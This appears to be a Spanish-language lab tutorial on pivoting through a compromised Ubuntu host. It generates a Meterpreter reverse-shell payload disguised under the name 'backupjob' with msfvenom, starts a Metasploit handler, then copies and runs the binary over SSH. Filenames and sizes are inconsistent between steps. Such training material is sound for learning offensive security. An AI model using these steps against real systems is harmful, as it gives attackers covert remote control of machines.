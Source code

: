 
Ahora consideremos un escenario donde tenemos acceso a la shell de Meterpreter en el servidor Ubuntu (pivot host) y queremos realizar escaneos de enumeración a través de él, pero queremos aprovechar las ventajas de las sesiones de Meterpreter. 
Podemos crear un pivote con nuestra sesión de Meterpreter sin depender del reenvío de puertos SSH. 
Podemos crear una shell de Meterpreter para el servidor Ubuntu con el siguiente comando, que devolverá una shell en nuestro host de ataque, en el puerto 8080:

### Creando un Payload para el Ubuntu Private Host
```shell-session
Polika4RM@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

### Creando y configurando el multi/handler
Antes de copiar el Payload podemos iniciar un multi/handler genérico:
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

### Ejecutando el Payload en el Ubuntu PIVOT HOST
Podemos entonces copiar el "backupjob.elf" en el UBUNTU PIVOT HOST mediante SSH:
```shell-session
Polika4RM@htb[/htb]$ scp backupjob.elf ubuntu@<ipAddressofTarget>:~/

backupjob.elf                                   100% 7168    65.4KB/s   00:00
```

y ejercutarlo para ganar una sesión de meterpreter:
```shell-session
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```
Tenemos que asegurar qye la sesión de meterpreter esté funcionando al ejecutar el payload.
